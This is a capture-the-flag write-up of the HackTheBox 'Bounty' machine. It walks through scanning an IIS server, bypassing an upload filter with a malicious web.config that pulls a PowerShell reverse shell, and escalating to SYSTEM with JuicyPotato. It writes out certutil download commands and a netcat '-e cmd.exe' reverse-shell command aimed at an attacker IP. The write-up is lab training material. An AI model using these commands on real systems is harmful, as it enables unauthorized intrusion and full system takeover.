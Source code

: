 #Bounty [HTB](https://app.hackthebox.com/machines/Bounty)
![bounty-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/bounty-01.png)

## Recon 

After adding the target to `/etc/hosts`, i run an `nmap` scan:

```bash
nmap -sC -sV -A -p- bounty.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/nmap-res-02.png)

We have the following:

+ An IIS v7.5 on port 80.

We have a single web server, lets see what we can find. 


### IIS Port 80

Lets start by navigating towards the site at `http://bounty.htb` 

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/site-03.png)

Not much to see here, lets try a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium
.txt -u http://bounty.htb/FUZZ -e .cgi,.php,.aspx,.asp
```

![ffuf-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/ffuf-04.png)

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/ffuf-05.png)

We have two interesting results. The first is a file upload directory, if we use Burp to intercept the 
request to this link we will get a `403` forbbiden return code:

![forbidden-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/forbidden-06.png)

On the other hand, we have a file upload page enabled for public use on this server:

![upload-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/upload-07.png)

Lets try to upload a simple `.txt` file to the server:

![txt-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/txt-08.png)

We get an error. Lets examine the replay in `Burp`:

![burp-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/burp-09.png)

There is a server side `ValidateFile()` funciton. I couldnt find this functiuon executing on the client 
side. We cant be sure exactly how the function works, it could determine acceptable file types via HTTP 
headers, magic numbers, file extensions, etc. 

Lets try to upload a `jpg` image:

![jpg-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/jpg-10.png)

So we see that `jpg` files are accepted. Can we view the image from the `uploadedfiles` directory? 

![view-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/view-11.png)

Yes we can. Ok, so now ideally what we want to do is find a way to land a reverse shell. With an IIS 
server we can try a copule of things. We can try to upload an `.aspx` reverse shell, which doesnt work 
in this case. The file upload validator checks the file extension. I've tried different tricks to 
bypass this but nothing worked for me. 

But we can also inject a code inside a `web.config` file, which in this case, is accepted:

![config-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/config-12.png)


If we open the file via the browser we get an internal error:

![internal-err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/internal-err-13.png)

This happens becasue the server tried to render the file, but failed because there was no valid syntax, lets change that. 

I found a `web.config` file for a reverse shell on [Github](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config).

![rshell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/rhsell-14.png)

As you can see, it runs a PowerShell command to grab a reverse shell from our host and execute it.
First, download the `web.config` file and update you attack machine's IP. 

Next, grab a copy of [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)'s `Invoke-PowerShellTCP.ps1` script to your working directory and invoke the reverse shell cmdlet at the buttom:

![cmdlet-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/cmdlet-15.png)

Now we need to host this file via a python web server:

```bash
python3 -m http.server 80
```

Upload the `web.config` file to the server:

![upload-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/upload-16.png)

Start the listener:

```bash
rlwrap nc -lnvp 443
```

Execute the  `web.config` file via the URL at `http://bounty.htb/uploadedfiles/web.config`.

This should give you access to the target system:

![shell-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/shell-17.png)


## Privilege Escalation

If we check for our user's privileges with:

```cmd
whoami /priv
```

![privs-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/privs-18.png)

We can see we have the `Impersonate` privileged enabled. We can potentially exploit this with a [potato attack](https://github.com/ohpe/juicy-potato), downlaod from [here](https://github.com/ohpe/juicy-potato/releases).


Once you have the `JuicyPotato.exe` binary in your working directory, grab a copy of `/usr/share/windows-resources/binaries/nc.exe` as well. Then start a Python server with:

```bash
python3 -m http.server 80
```

Now from the traget, `cd` into a directory we can write to like `C:\Users\merlin\AppData\Local\Temp` and download both files with:

```cmd
certutil -urlcache -f http://10.10.14.62/JuicyPotato.exe jp.exe
certutil -urlcache -f http://10.10.14.62/nc.exe nc.exe
```

Start the listener with:

```bash
rlwrap nc -lnvp 9001
```


Execute the exploit with:

```cmd
C:\Users\merlin\AppData\Local\Temp\jp.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c C:\Users\merlin\AppData\Local\Temp\nc.exe -e cmd.exe 10.10.14.62 9001" -t *
```

This should yield you shell access as the system:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/root-19.png)

